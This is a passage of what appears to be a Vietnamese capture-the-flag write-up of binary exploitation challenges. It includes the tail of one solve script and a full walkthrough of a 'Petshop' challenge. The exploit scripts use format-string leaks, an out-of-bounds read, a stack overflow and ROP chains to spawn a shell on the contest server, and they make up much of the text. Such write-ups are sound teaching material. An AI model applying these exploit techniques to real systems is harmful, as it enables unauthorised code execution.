def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)

# debug()

# Leak stack + libc 
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

logout(b"new_feedback")

# Change RBP
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()

# Build ropchain 
binsh  = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols["system"]
poprdi = libc_base + 0x240e5
ret    = poprdi + 1

payload = b"a"*72 + p64(ret) + p64(poprdi) + p64(binsh) + p64(system)
logout(payload) 

p.interactive() 
```

> **FLAG: KCSC{st1ll_buff3r_0v3rfl0w_wh3n_h4s_c4n4ry?!?}**

## pwn/Petshop


* 9 solve / 472 pts / by JohnathanHuuTri
* **Given files:** 
  * petshop
  * libc-2.31.so
  * ld-2.31.so 
* **Description:** Welcome to our new petshop! You can find various kinds of pet, sometimes bugs too.\
`nc 103.163.24.78 10001`


### 0x01 Overview 

Chương trình có 4 lựa chọn:
- buy
- sell
- info 
- exit 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char s[32]; // [rsp+0h] [rbp-20h] BYREF

    init(argc, argv, envp);
    puts("Seller --> Welcome to our pet shop!\n");
    do
    {
        puts("Seller --> How may I help you?");
        printf("You    --> ");
        fgets(s, 0x20, stdin);
        if ( !strncmp(s, "buy ", 4uLL) )
        {
            buy((__int64)&s[4]);
        }

        else if ( !strncmp(s, "sell ", 5uLL) )
        {
            sell(&s[5]);
        }

        else if ( !strncmp(s, "info ", 5uLL) )
        {
            info(&s[5]);
        }

        puts(&byte_2298);
    }
    while ( strncmp(s, "exit", 4uLL) );

    puts("Seller --> Thank you for shopping with us!");
    return 0;
}
```

Tùy vào từng lựa chọn, các hàm sẽ parse input ra thành các giá trị phù hợp để phục vụ cho việc xử lý của mỗi hàm. Sau khi phân tích sơ qua source code, mình đã tạo một struct `pet_struct` như sau: 
```
00000000 pet_struct struc ; (sizeof=0x10, mappedto_18)
00000000 type    dq ?   ; offset
00000008 name    dq ?   ; offset
00000010 pet_struct ends
```

#### Hàm `buy`

```c
int __fastcall buy(char *a1)
{
    int v1; // ebx
    pet_struct **v2; // rax
    int v3; // eax
    pet_struct *v4; // rbx
    int pet_idx; // [rsp+1Ch] [rbp-424h] BYREF
    char s[1037]; // [rsp+20h] [rbp-420h] BYREF
    char pet_type[19]; // [rsp+42Dh] [rbp-13h] BYREF

    memset(s, 0, 0x400uLL);
    if ( (unsigned int)__isoc99_sscanf(a1, "%3s %d", pet_type, &pet_idx) != 2 )
    {
        goto LABEL_x52C;
    }

    --pet_idx;
    v1 = pet_count;
    pet_list[v1] = (pet_struct *)malloc(0x10uLL);
    if ( strncmp(pet_type, "cat", 3uLL) )
    {
        if ( strncmp(pet_type, "dog", 3uLL) )
        {
            puts("We only have cats and dogs!");
            v2 = pet_list;
            pet_list[pet_count] = 0LL;
            return (int)v2;
        }

        if ( pet_idx > 3 )
        {
            puts("Invalid type of dog!");
            v2 = pet_list;
            pet_list[pet_count] = 0LL;
            return (int)v2;
        }

        pet_list[pet_count]->type = dogs[pet_idx];
        goto LABEL_x4BD;
    }

    if ( pet_idx <= 3 )                         // OOB
    {
        pet_list[pet_count]->type = cats[pet_idx];

LABEL_x4BD:
        puts("Seller --> What is your pet's name?");
        printf("You    --> ");
        fgets(s, 1024, stdin);
        v3 = pet_count++;
        v4 = pet_list[v3];
        v4->name = strdup(s);

LABEL_x52C:
        LODWORD(v2) = puts("Seller --> It's fun to have pet in your house!");
        return (int)v2;
    }

    puts("Invalid type of cat!");
    v2 = pet_list;
    pet_list[pet_count] = 0LL;
    return (int)v2;
}
```

Tóm tắt hàm `buy` như sau: 
- Parse input theo cấu trúc `buy | pet_type | pet_type_index`
- Cho mua một trong hai loại pet: `dog` / `cat`
- Mỗi loại pet có 4 kiểu 
- Cho phép nhập tên pet tối đa 1024 byte

#### Hàm `sell`

```c
int __fastcall sell(char *a1)
{
    int reason_size; // [rsp+18h] [rbp-208h] BYREF
    unsigned int pet_list_idx; // [rsp+1Ch] [rbp-204h] BYREF
    char reason[512]; // [rsp+20h] [rbp-200h] BYREF

    memset(reason, 0, sizeof(reason));
    if ( (unsigned int)__isoc99_sscanf(a1, "%d", &pet_list_idx) != 1 || pet_list_idx > 7 || !pet_list[pet_list_idx] )
    {
        return puts("Seller --> There are no pet in that index!");
    }

    pet_list[pet_list_idx] = 0LL;
    puts("Seller --> Nooooo, why you want to sell your pet?");
    puts("Seller --> How many characters in your reason?");
    printf("You    --> ");
    if ( (unsigned int)__isoc99_scanf("%d", &reason_size) == 1 && (reason_size <= 0 || reason_size > 511) )
    {
        return puts("Invalid size!");
    }

    getchar();
    puts("Seller --> Your reason?");
    printf("You    --> ");
    fgets(reason, reason_size, stdin);
    return puts("Seller --> That seems reasonable!");
}
```

Tóm tắt hàm `sell` như sau: 
- Parse input theo cấu trúc `sell | pet_list_index`
- Cho bán một trong hai loại: `dog` / `cat`
- Cho nhập `reason` với kích thước `reason_size` nằm trong khoảng [1, 511]

#### Hàm `info`

```c
int __fastcall info(const char *a1)
{
    pet_struct *v1; // rax
    int k; // [rsp+14h] [rbp-Ch]
    int j; // [rsp+18h] [rbp-8h]
    int i; // [rsp+1Ch] [rbp-4h]

    if ( !strncmp(a1, "cat", 3uLL) )
    {
        LODWORD(v1) = puts("In here we have:");
        for ( i = 0; i <= 3; ++i )
        {
            LODWORD(v1) = printf("%d. %s\n", (unsigned int)(i + 1), cats[i]);
        }
    }

    else if ( !strncmp(a1, "dog", 3uLL) )
    {
        LODWORD(v1) = puts("In here we have:");
        for ( j = 0; j <= 3; ++j )
        {
            LODWORD(v1) = printf("%d. %s\n", (unsigned int)(j + 1), dogs[j]);
        }
    }
    else
    {
        LODWORD(v1) = strncmp(a1, "mine", 4uLL);
        if ( !(_DWORD)v1 )
        {
            LODWORD(v1) = puts("Your pets:");
            for ( k = 0; k <= 7; ++k )
            {
                v1 = pet_list[k];
                if ( v1 )
                {
                    printf("%d. %s\n", (unsigned int)(k + 1), pet_list[k]->type);
                    LODWORD(v1) = printf("Name: %s\n", pet_list[k]->name);
                }
            }
        }
    }

    return (int)v1;
}
```

Tóm tắt hàm `info` như sau: 
- Parse input theo cấu trúc `info | option`
- Có 3 `option` để lựa chọn:
  - `dog`
  - `cat`
  - `mine`: In ra toàn bộ thông tin `pet_list` của mình

### 0x02 Bug Out-off-Bound 

Ở hàm `buy`, ta nhận thấy rằng `pet_type_idx` có thể nhận giá trị âm, từ đó gây nên bug OOB. 

```c
int __fastcall buy(char *a1)
{
    int pet_type_idx; // [rsp+1Ch] [rbp-424h] BYREF
    if ( (unsigned int)__isoc99_sscanf(a1, "%3s %d", pet_type, &pet_type_idx) != 2 )
        goto LABEL_x52C;

    --pet_type_idx;

    if ( pet_type_idx <= 3 )                    // OOB
        pet_list[pet_count]->type = cats[pet_type_idx];
}
``` 

Tận dụng chức năng in ra toàn bộ thông tin `pet_list` của hàm `info`. Ta sẽ leak được các giá trị của binary và libc. 

#### Leak binary
Mua một bé mèo với cú pháp `buy cat 1`. Do idx sẽ bị trừ đi một, vậy nên em mèo của ta sẽ có tên ở địa chỉ `cats[0]`. 



Nhìn xung quanh các giá trị lân cận, ta thấy có giá trị `0x0000555555558008` là địa chỉ binary. Ta hoàn toàn leak được giá trị đó với `idx = -2`.  

```python
buy("cat", -2, cyclic(1020)) 
info("mine")

ru(b"1. ")

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")
```

#### Leak libc (Invisible)

Sau khi search trong memory, mình không thấy có địa chỉ nào phù hợp để leak ra libc. Vì vậy mình tạm hoãn công việc này tại đây. 

### 0x03 Bug Stack Buffer Overflow

Với việc cho nhập `pet_name` tối đa tới tận 1024 byte. Mình thoáng nghĩ có điều gì không ổn tại đây. Mình dùng `cyclic` tạo thử 1020 byte để xem input này có ảnh hưởng gì tới các hàm khác không. 

Thử vào hàm `sell`, đi tới hàm nhập `reason_size` thì ta thấy `reason_size` đang có giá trị rác `jaaf` rất giống trong `input` tạo bởi `cyclic`. 



Từ đây, ta hoàn toàn điều khiển được `reason_size` và trigger được bug BOF. Nguyên nhân dẫn tới lỗi này là `reason_size` không được initialize, vậy nên nó có thể nhận giá trị rác từ input nào đó. 

```c
int __fastcall sell(char *a1)
{
    int reason_size; // [rsp+18h] [rbp-208h] BYREF
    char reason[512]; // [rsp+20h] [rbp-200h] BYREF

    if ( (unsigned int)__isoc99_scanf("%d", &reason_size) == 1 && (reason_size <= 0 || reason_size > 511) )
    {
        return puts("Invalid size!");
    }

    fgets(reason, reason_size, stdin);
}
```

Chưa hết, ta phải bypass được điều kiện check ở trên. Có một trick với hàm `scanf` là nếu như ta nhập input không đúng với định dạng fmt thì hàm sẽ trả về 0 và không làm thay đổi giá trị của đối số. 

Vậy input mình nhập vào đơn giản chỉ là `-` sẽ bypass được đoạn check ở trên. 

```python
def sell(pet_list_idx, reason): 
    payload = ("sell " + str(pet_list_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", b"-")
    sla(b"You    --> ", reason)
```

### 0x04 Leak Libc 

Sau khi dựa trên stack, ta tính được offset để overwrite return address là 0x208 byte. Tới đây thì chúng ta dễ dàng build ROPChain để leak libc.  

```python
poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```

### 0x05 Final script 

Hoàn thiện exploit, có được shell của thử thách. Có một vấn đề nhỏ mà chúng ta cần chú ý ở hàm `sell` là 

```c
 if ( (unsigned int)__isoc99_sscanf(a1, "%d", &pet_list_idx) != 1 || pet_list_idx > 7 || !pet_list[pet_list_idx] )
    {
        return puts("Seller --> There are no pet in that index!");
    }
```
Nếu chúng ta chỉ tạo 1 con pet thì sau lần sell thứ nhất `pet_list` sẽ rỗng. Vậy để hợp lệ hóa cho bước kiểm tra này, mình sẽ tạo thêm 1 con pet nữa.  

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./petshop_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10001)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *main+82
        b *sell+367
        continue
    """)
    pause() 

# debug()

def buy(pet_type, pet_type_idx, pet_name): 
    payload = ("buy " + pet_type + " " + str(pet_type_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", pet_name)

def sell(pet_list_idx, reason): 
    payload = ("sell " + str(pet_list_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", b"-")
    sla(b"You    --> ", reason)

def info(option):
    payload = ("info " + option).encode("utf8")
    sla(b"You    --> ", payload)

buy("cat", -2, cyclic(536) + p32(0x300)) 
info("mine")

ru(b"1. ")

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")

poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

# create fake pet to validate pet deletion
buy("cat", -2, cyclic(536) + p32(0x300)) 

binsh  = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols["system"]
payload2 = flat(b"B" * 0x208, ret, poprdi, binsh, system)

sell(1, payload2)

p.interactive() 
```

> **FLAG: KCSC{0h_n0_0ur_p3t_h4s_bug?!????????????????????}**